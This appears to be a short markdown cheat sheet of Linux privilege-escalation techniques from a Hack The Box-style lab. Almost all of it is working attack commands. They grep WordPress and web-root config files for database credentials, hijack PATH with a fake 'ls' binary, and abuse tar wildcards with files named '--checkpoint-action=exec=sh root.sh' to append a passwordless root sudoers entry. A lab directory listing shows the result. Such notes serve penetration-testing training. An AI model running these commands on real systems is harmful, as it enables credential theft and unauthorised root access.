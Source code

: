 #### Credential Hunting
#Linux_Credential

- Wordpress Credential  : 
```sh
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

- Website Credential :
```sh
grep -ir "DB_USER\|DB_PASSWORD" /var/www/html
```

### Environment-based Privilege Escalation
#Path_Abuse

- Path Abuse: 
```sh
PATH =.:${PATH}
export PATH
echo $PATH
#then 
touch ls
echo 'echo "PATH ABUSE!!"' > ls
chmod +x ls
```

- Exemple of another Path Abuse :
https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de

**Wildcard Abuse**
#Wildcard_Abuse

- Example of wildcard abuse : 
```sh
echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh

echo "" > "--checkpoint-action=exec=sh root.sh"

echo "" > --checkpoint=1
```

- Output: 
```sh
htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
```
